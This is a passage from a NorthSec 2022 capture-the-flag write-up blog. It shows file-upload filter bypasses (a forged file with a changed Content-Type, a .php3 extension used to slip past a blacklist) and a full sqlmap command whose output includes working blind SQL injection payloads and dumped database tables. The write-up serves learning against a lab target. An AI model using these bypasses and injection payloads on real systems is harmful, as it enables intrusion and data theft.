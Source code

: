 ![Hexed.it](/will-hack-for-coffee/assets/images/nsec2022/hexed.png)

The resulting forged file was uploaded (again modifying the Content-Type header).

![File upload 104](/will-hack-for-coffee/assets/images/nsec2022/upload104.png){:.centered}

For the fourth upload challenge I renamed the file to rev.png.php3 a less known but still valid PHP extension. The validation must have been a blacklist on .php extension.

![SQL injection 101](/will-hack-for-coffee/assets/images/nsec2022/sqli101.png){: #sql-injection .centered}

I previously suggested to a teammate that he could have used [sqlmap to solve that challenge](https://erichogue.ca/2021/05/NorthSec2021WriteupSpellQueryLanguage/#flag-1) but I didn't took the time to try it myself. Here is a command that worked for me:
````
└─$ sqlmap -u http://chal4.hackademy.ctf --data "password=admin&username=admin" -p "password,username" --method POST --current-db --dump --technique=BEUSTQ
        ___
       __H__                                                                                         
 ___ ___[.]_____ ___ ___  {1.6.5#stable}                                                             
|_ -| . [.]     | .'| . |                                                                            
|___|_  [,]_|_|_|__,|  _|                                                                            
      |_|V...       |_|   https://sqlmap.org                                                         

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:53:09 /2022-05-20/

[22:53:09] [INFO] resuming back-end DBMS 'sqlite' 
[22:53:09] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: password=admin&username=admin' AND 1182=1182 AND 'RANU'='RANU

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: password=admin&username=admin' AND 4961=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'OrQH'='OrQH
---
[22:53:09] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[22:53:09] [WARNING] on SQLite it is not possible to get name of the current database
[22:53:09] [INFO] fetching tables for database: 'SQLite_masterdb'
[22:53:09] [INFO] fetching number of tables for database 'SQLite_masterdb'
[22:53:09] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:53:09] [INFO] retrieved: 2
[22:53:09] [INFO] retrieved: fl4G_1s_H3re
[22:53:13] [INFO] retrieved: users
[22:53:14] [INFO] retrieved: CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT NOT NULL UNIQUE, password TEXT NOT NULL)
[22:53:41] [INFO] fetching entries for table 'users'
````